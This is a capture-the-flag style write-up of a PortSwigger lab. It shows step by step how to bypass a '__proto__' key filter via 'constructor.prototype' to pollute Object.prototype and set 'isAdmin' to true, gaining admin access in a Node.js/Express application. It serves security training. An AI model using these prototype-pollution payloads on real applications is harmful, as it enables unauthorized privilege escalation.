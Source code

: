 # Bypassing flawed input filters for server-side prototype pollution

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/prototype-pollution/server-side/lab-bypassing-flawed-input-filters-for-server-side-prototype-pollution), you'll learn: Bypassing flawed input filters for server-side prototype pollution! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab is built on Node.js and the Express framework. It is vulnerable to server-side [prototype pollution](https://portswigger.net/web-security/prototype-pollution) because it unsafely merges user-controllable input into a server-side JavaScript object.

To solve the lab:

1. Find a prototype pollution source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget property that you can use to escalate your privileges.
3. Access the admin panel and delete the user `carlos`.

You can log in to your own account with the following credentials: `wiener:peter`

> Note:
>  
> When testing for server-side prototype pollution, it's possible to break application functionality or even bring down the server completely. If this happens to your lab, you can manually restart the server using the button provided in the lab banner. Remember that you're unlikely to have this option when testing real websites, so you should always use caution.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222181758.png)

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222181813.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222181821.png)

In here, we can update our billing and delivery address.

Let's try to update it:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222181851.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222181855.png)

Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222181915.png)

When we clicked the "Submit" button, it'll send a POST request to `/my-account/change-address`, with parameter `address_line_1`, `address_line_2`, `city`, `postcode`, `country`, `sessionId`.

**If there's no error, the response will return a JSON data:**
```json
{
    "username": "wiener",
    "firstname": "Peter",
    "lastname": "Wiener",
    "address_line_1": "Wiener HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "isAdmin": false
}
```

### Find a prototype pollution source that you can use to add arbitrary properties to the global `Object.prototype`

**Now, we can try to add arbitrary properties to the global `Object.prototype` via prototype pollution:**
```json
{
    "address_line_1": "Wiener HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "sessionId": "9zO14DRBcrJYKDNyCiBtv9R7Gkf04LMO",
    "__proto__": {
        "json spaces": 1
    }
}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222183017.png)

However, it seems like we didn't polluted an arbitrary property?

Now, websites often attempt to prevent or patch prototype pollution vulnerabilities by filtering suspicious keys like `__proto__`. This key sanitization approach is not a robust long-term solution as there are a number of ways it can potentially be bypassed. For example, an attacker can:

- Obfuscate the prohibited keywords so they're missed during the sanitization. For more information, see [Bypassing flawed key sanitization](https://portswigger.net/web-security/prototype-pollution/client-side#bypassing-flawed-key-sanitization).
- Access the prototype via the constructor property instead of `__proto__`. For more information, see [Prototype pollution via the constructor](https://portswigger.net/web-security/prototype-pollution/client-side#prototype-pollution-via-the-constructor)

Node applications can also delete or disable `__proto__` altogether using the command-line flags `--disable-proto=delete` or `--disable-proto=throw` respectively. However, this can also be bypassed by using the constructor technique.

**Armed with above information, we can try to pollute the global `Object.prototype` to add arbitrary properties by obfuscating the `__proto__` keyword:**
```json
{
    "address_line_1": "Wiener HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "sessionId": "9zO14DRBcrJYKDNyCiBtv9R7Gkf04LMO",
    "__pro__proto__to__": {
        "foo": "bar"
    }
}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222182729.png)

Still nope.

Maybe the web application delete or disable `__proto__`...

**However, we can still bypass that via `constructor`.**

**In client-side prototype pollution, we can use the folllowing `constructor` to pollute the global `Object.prototype` to add arbitrary properties:**
```js
myObject.constructor.prototype
```

**We can also do that in server-side one:**
```json
{
    "address_line_1": "Wiener HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "sessionId": "9zO14DRBcrJYKDNyCiBtv9R7Gkf04LMO",
    "constructor": {
        "prototype": {
            "json spaces": 1
        }
    }
}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222183253.png)

Nice! We've successfully identify that the web application is indeed vulnerable to server-side prototype pollution!

### Identify a gadget property that you can use to escalate your privileges

**In the response result, we see this:**
```json
{
    "username": "wiener",
    "firstname": "Peter",
    "lastname": "Wiener",
    "address_line_1": "Wiener HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "isAdmin": false
}
```

The `isAdmin` property is very interesting to us!

***What if we can leverage server-side prototype pollution to set that property's value to `true`?***
```json
{
    "address_line_1": "Wiener HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "sessionId": "9zO14DRBcrJYKDNyCiBtv9R7Gkf04LMO",
    "constructor": {
        "prototype": {
            "isAdmin": true
        }
    }
}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222183505.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222183514.png)

Nice! We now became an administrator!

Let's go to the admin panel and delete user `carlos`!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222183547.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222183557.png)

# What we've learned:

1. Bypassing flawed input filters for server-side prototype pollution